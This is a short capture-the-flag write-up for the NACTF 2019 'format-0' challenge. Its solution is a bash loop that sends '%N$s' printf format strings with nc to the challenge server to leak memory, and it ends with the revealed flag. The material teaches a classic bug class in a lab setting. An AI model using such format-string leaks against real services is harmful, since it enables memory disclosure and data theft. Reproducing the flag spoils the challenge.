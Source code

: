 #### Challenge:

Someone didn't tell Chaddha not to give user input as the first argument to `printf()` - use it to leak the flag! `nc shell.2019.nactf.com 31782` [format-0.c](./format-0.c ":ignore") [format-0](./format-0 ":ignore")

---

#### Solution:

```bash
for i in `seq 1 40`; do
    echo "%$i\$s" | nc shell.2019.nactf.com 31782;
done
```

---

<details><summary>FLAG:</summary>

```
nactf{Pr1ntF_L34k_m3m0ry_r34d_nM05f469}
```

</details>
